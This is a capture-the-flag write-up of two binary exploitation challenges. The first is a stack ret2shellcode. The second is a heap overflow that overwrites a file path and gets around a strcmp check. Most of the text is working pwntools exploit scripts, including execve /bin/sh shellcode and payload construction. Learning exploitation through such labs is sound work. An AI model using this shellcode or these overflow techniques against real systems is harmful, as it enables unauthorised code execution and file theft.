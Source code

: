 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis

![image](https://github.com/user-attachments/assets/4f5cc698-593f-470a-96aa-8cf7132132a2)

Opening the binary in Ghidra, we can see that there is a buffer overflow with the gets() function inside the heap memory region due to the use of `malloc(0x40)`. Then, there is a second chunk allocated which contains the path `/etc/passwd`. So the goal is simple, bof enough until we reach the 2nd chunk and overwrite with the path to the flag. 

```
└─$ cat Dockerfile 
FROM ubuntu:22.04
ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND=noninteractive

<-- setup snippet -->

# flag location: /flag/secretflag/flag

CMD ["/start.sh"]

EXPOSE 9997
```

In the dockerfile, we can find the path to the flag. Before we go into exploitation, we need a little understanding about a heap structure first.

![image](https://github.com/user-attachments/assets/f4f8bc26-3782-4c63-8e3e-ce7cd50f149a)

The image above shows the structure of a heap chunk when we allocate it. The payload area is the location where we can store data. Above the payload, there is some metadata about the heap chunk. For example, the size of the chunk and also some flags (AMP) needed for internal functions. We can verify this by taking a look in gdb.

![image](https://github.com/user-attachments/assets/0c65f0a9-c44b-40ee-99ea-e92f6001e086)

We can see both of our chunks here. 0x51 is the size of the chunk because we malloc 0x40, another 0x10 comes from the header metadata, and 0x1 is the flag PREV_IN_USE. After the size, we have the user input `aaaaaaaa`. Below this chunk, we have the chunk for the file path `/etc/passwd`. Now we know, we need to write 0x50 bytes before we start overwriting the file path. There's one more thing left to do, which is to bypass the strcmp(). We can easily do that by sending `b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"` followed by more user input. This is possible because gets() only stops taking user input after it receives `\n`, not `\x00`. This will bypass strcmp() as it only compares null terminated strings.

### Exploit Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./etcpasswd-reader')
libc = exe.libc

host = "etc-passwd-reader.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

secret = b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"

payload = secret
payload += b"A" * (80-len(secret))
payload += b"/flag/secretflag/flag"

sla(b"details: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/13671dba-338d-4dc9-ae19-ceba88593c7b)
